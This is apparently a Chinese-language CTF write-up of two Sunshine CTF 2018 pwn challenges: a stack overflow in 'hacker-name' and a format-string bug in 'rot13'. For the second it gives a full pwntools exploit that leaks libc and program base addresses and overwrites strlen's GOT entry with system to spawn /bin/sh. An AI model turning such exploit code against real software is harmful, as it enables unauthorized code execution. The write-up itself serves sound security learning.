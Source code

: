 ```yaml
---
layout:		post
title:		Sunshine CTF 2018部分writeup
author:		wooy0ung
tags:		pwn
category: 	writeup
---
```


- 目录
{:toc #markdown-toc}

>[索引目录]  
>0x001 hacker-name(stack overflow)  
>0x002 rot13(format string)  
<!-- more -->


## 0x001 hacker-name(stack overflow)

ida看到这
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x001-001.png)
v1输入，但作比较的是s1

好在s1位于v1的下方，可以被覆盖掉
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x001-002.png)

算一下偏移7
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x001-003.png)


## 0x002 rot13(format string)

漏洞很明显，一个格式化串，但要绕过rot13
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x002-001.png)

看下内存布局，proc_base: 0x5658c000、libc_base： 0xf7d80000
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x002-002.png)

再看看函数栈，esp偏移3、4处分别能leak出libc_base、proc_base
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x002-003.png)

exp.py
```
from pwn import *
from re import search
from string import maketrans, translate

context.log_level = "debug"

rot13_transe = maketrans('ABCDEFGHIJKLMabcdefghijklmNOPQRSTUVWXYZnopqrstuvwxyz', 'NOPQRSTUVWXYZnopqrstuvwxyzABCDEFGHIJKLMabcdefghijklm')

def rot13(arg):
  return translate(arg, rot13_transe)

s = process("./rot13")
#s = remote('chal1.sunshinectf.org', 20006)
elf = ELF("./rot13")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

s.sendlineafter("encrypted:",rot13("%2$x|%3$x"))

s.recvuntil("data: ")
text = s.recv()
text = search('(\w+)\|(\w+)', text)

libc_base = int(text.group(1), 16) - 0x25325
proc_base = int(text.group(2), 16) - 0x95b

system_addr = libc.symbols["system"] + libc_base
strlen_got = elf.got["strlen"] + proc_base

p = rot13(fmtstr_payload(7, {strlen_got:system_addr}))
s.sendline(p)

s.sendlineafter("encrypted:","/bin/sh")
s.interactive()
```